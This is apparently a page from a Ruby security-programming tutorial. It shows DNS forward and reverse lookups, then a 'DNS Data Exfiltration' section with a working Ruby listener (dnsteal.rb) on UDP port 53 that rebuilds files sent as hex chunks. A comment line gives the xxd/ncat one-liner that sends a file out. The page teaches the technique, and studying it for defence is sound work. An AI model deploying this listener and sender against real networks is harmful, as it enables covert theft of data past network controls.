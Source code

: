 # DNS 

## DNS lookup 
### Forward DNS lookup (Host to IP)
```ruby
require 'resolv'
Resolv.getaddresses "rubyfu.net"
```

Returns array of all IPs
```
["23.23.122.48", "107.20.161.48", "174.129.41.187"]
```

or use `Resolv.getaddress` to get one address only


### Reverse DNS lookup (IP to Host)
```ruby
require 'resolv'
Resolv.getnames "23.23.122.48"
```

Returns array of all hostnames, if PTR is assigned 
```
["ec2-174-129-41-187.compute-1.amazonaws.com"]
```

or use `Resolv.name` to get one name only


## DNS Data Exfiltration 
DNS out-band connection is usually allowed in local networks, which is the major benefits of using DNS to transfer data to external server. 

**dnsteal.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<][a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```

Run it 
```
ruby dnsteal.rb image.jpg
```




<br><br><br>
---
- [dnsteal.py](https://github.com/m57/dnsteal)